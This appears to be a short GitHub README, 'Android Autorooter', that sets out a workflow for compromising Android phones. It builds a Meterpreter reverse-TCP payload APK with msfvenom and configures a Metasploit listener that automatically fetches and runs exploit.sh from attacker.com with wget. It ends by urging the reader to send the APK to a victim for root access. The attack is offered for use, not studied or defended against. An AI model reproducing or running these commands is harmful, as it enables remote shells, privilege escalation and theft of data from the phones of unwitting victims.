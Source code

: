 # Android Autorooter

This is just a mental note more than anything to further explore the posibilities of the work done here:
https://rtx.meta.security/exploitation/2024/03/04/Android-run-as-forgery.html
https://tinyhack.com/2024/06/07/extracting-whatsapp-database-or-any-app-data-from-android-12-13-using-cve-2024-0044/?s=03
https://www.mobile-hacker.com/2024/06/17/exfiltrate-sensitive-user-data-from-apps-on-android-12-and-13-using-cve-2024-0044-vulnerability/

Ultimately I'd like to have a self executing exploit but babysteps yeah..

## Give this a try

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> R > payload.apk
```

Create a resource script execute_script.rc to automate the commands:
```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <attacker_ip>
set LPORT <attacker_port>
exploit -j
set AutoRunScript multi_console_command -rc /path/to/commands.rc
```

Create the resource script with the necessary commands:
```
cd /data/local/tmp
wget http://attacker.com/exploit.sh -O exploit.sh
chmod +x exploit.sh
./exploit.sh
```

Start Metasploit with the resource script:
```
msfconsole -r execute_script.rc
```
Get the party started with:
```
msfconsole -r execute_script.rc
```

Now your listener/payload delivery is set up...  Send that payload.apk to the victim.. Lets get some root baby
